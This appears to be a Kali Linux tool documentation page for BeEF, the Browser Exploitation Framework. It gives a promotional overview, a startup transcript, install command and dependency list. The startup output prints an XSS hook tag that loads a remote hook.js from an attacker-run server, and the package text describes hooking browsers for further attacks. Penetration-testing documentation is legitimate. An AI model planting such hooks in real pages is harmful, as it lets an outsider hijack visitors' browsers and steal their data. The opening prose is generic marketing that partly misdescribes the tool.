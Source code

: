 ```yaml
---
description: >-
  Beef-XSS: Advanced XSS attack simulator with user tracking, customizable
  reporting, and flexible configuration for comprehensive web app security
  testing.
---
```


# 🎩 beef-xss

Beef-XSS is a powerful security tool that is designed to help organizations and security professionals identify vulnerabilities in web applications by simulating real-world attacks. With its intuitive user interface and advanced features, Beef-XSS is the ideal tool for anyone looking to enhance their security posture and protect their web applications from cyber attacks.

One of the key features of Beef-XSS is its ability to simulate a wide range of cross-site scripting (XSS) attacks. XSS attacks are one of the most common vulnerabilities found in web applications, and they can be used by hackers to steal sensitive information or gain unauthorized access to systems. With Beef-XSS, users can easily test their web applications for XSS vulnerabilities and identify areas where additional security measures may be needed.

Another feature that sets Beef-XSS apart from other security tools is its ability to track user activity and gather valuable insights into how users interact with web applications. This information can be used to identify potential vulnerabilities and to improve the overall security of the application. With Beef-XSS, users can easily monitor user activity, track clicks, and analyze user behavior to identify potential threats.

Beef-XSS also comes with a comprehensive set of reporting tools that allow users to generate detailed reports on vulnerabilities and security issues. These reports can be customized to include specific data points and can be exported in a variety of formats for easy sharing with stakeholders and other members of the security team.

Finally, Beef-XSS is designed to be easy to use and can be customized to meet the specific needs of each organization. With its intuitive interface and flexible architecture, users can easily configure the tool to suit their unique security requirements and workflows.

In conclusion, if you are looking for a powerful and flexible security tool that can help you identify vulnerabilities in your web applications and improve your overall security posture, then Beef-XSS is the tool for you. With its advanced features, intuitive interface, and flexible architecture, Beef-XSS is the perfect tool for any organization looking to enhance their security capabilities and protect against cyber threats.

### Screenshots <a href="#screenshots" id="screenshots"></a>

[![beef-xss](<../../.gitbook/assets/beef xss.png>)](<../../.gitbook/assets/beef xss.png>)

### beef Usage Example <a href="#beef-usage-example" id="beef-usage-example"></a>

```
:~# beef-xss
[*] Please wait for the BeEF service to start.
[*]
[*] You might need to refresh your browser once it opens.
[*]
[*]  Web UI: http://127.0.0.1:3000/ui/panel
[*]    Hook: <script src="http://<IP>:3000/hook.js"></script>
[*] Example: <script src="http://127.0.0.1:3000/hook.js"></script>

● beef-xss.service - LSB: BeEF
   Loaded: loaded (/etc/init.d/beef-xss; generated)
   Active: active (running) since Sat 2018-11-24 18:44:53 EST; 5s ago
     Docs: man:systemd-sysv-generator(8)
  Process: 3457 ExecStart=/etc/init.d/beef-xss start (code=exited, status=0/SUCCESS)
    Tasks: 5 (limit: 4665)
   Memory: 151.9M
   CGroup: /system.slice/beef-xss.service
           └─3463 ruby /usr/share/beef-xss/beef

Nov 24 18:44:53 kali systemd[1]: Starting LSB: BeEF...
Nov 24 18:44:53 kali systemd[1]: Started LSB: BeEF.

[*] Opening Web UI (http://127.0.0.1:3000/ui/panel) in: 5... 4... 3... 2... 1...
```

***

\


### Packages and Binaries:

#### beef-xss <a href="#beef-xss" id="beef-xss"></a>

BeEF is short for The Browser Exploitation Framework. It is a penetration testing tool that focuses on the web browser.

Amid growing concerns about web-born attacks against clients, including mobile clients, BeEF allows the professional penetration tester to assess the actual security posture of a target environment by using client-side attack vectors. Unlike other security frameworks, BeEF looks past the hardened network perimeter and client system, and examines exploitability within the context of the one open door: the web browser. BeEF will hook one or more web browsers and use them as beachheads for launching directed command modules and further attacks against the system from within the browser context.

**Installed size:** `19.74 MB`\
**How to install:** `sudo apt install beef-xss`

<details>

<summary>Dependencies:</summary>

* adduser
* lsof
* ruby-ansi
* ruby-async-dns
* ruby-dev
* ruby-em-websocket
* ruby-erubis
* ruby-espeak
* ruby-eventmachine
* ruby-execjs
* ruby-json
* ruby-maxmind-db
* ruby-mime-types
* ruby-msfrpc-client
* ruby-otr-activerecord
* ruby-parseconfig
* ruby-qr4r
* ruby-rack
* ruby-rack-protection
* ruby-rubydns
* ruby-rushover
* ruby-sinatra
* ruby-slack-notifier
* ruby-sqlite3
* ruby-term-ansicolor
* ruby-terser
* ruby-twitter
* ruby-xmlrpc
* ruby-zip
* rubygems-integration
* thin
* xdg-utils

</details>

**beef-xss**

```
:~# beef-xss -h
[-] You are using the Default credentials
[-] (Password must be different from "beef")
[-] Please type a new password for the beef user: 
```

***

**beef-xss-stop**

```
:~# beef-xss-stop -h
* beef-xss.service - beef-xss
     Loaded: loaded (/lib/systemd/system/beef-xss.service; disabled; preset: disabled)
     Active: inactive (dead)
```

***

Updated on: 2022-Nov-16\


***
